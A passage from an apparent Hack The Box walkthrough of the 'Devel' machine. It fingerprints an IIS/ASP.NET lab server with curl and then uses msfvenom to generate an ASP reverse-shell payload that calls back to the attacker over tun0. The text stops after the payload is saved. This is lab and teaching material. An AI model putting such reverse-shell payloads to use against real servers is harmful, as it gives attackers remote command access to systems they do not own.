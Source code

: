 ![](/assets/images/blogs/Pasted image 20210614115441.png)

Going to `/test`, we can't see the file we put:

![](/assets/images/blogs/Pasted image 20210614115505.png)

What if we put a HTML file? Or an ASP file? Before we try, it's worth seeing what it's running:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ curl -v http://10.10.10.5
*   Trying 10.10.10.5:80...
* Connected to 10.10.10.5 (10.10.10.5) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.5
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: text/html
< Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
< Accept-Ranges: bytes
< ETag: "37b5ed12c9fd21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Mon, 14 Jun 2021 11:05:36 GMT
< Content-Length: 689
< 
```

`curl` reckons it's ASP.NET, as expected from an IIS server. We can try to confirm this - `index.html` doesn't load:

![](/assets/images/blogs/Pasted image 20210614115751.png)

Then again, neither does `index.asp`:

![](/assets/images/blogs/Pasted image 20210614120008.png)

Or `index.aspx`:

![](/assets/images/blogs/Pasted image 20210614120025.png)

Why not just try to upload a shell and see what happens? We can generate an `.asp` reverse shell:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=413 -f asp -o whoops.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38610 bytes
Saved as: whoops.asp
```
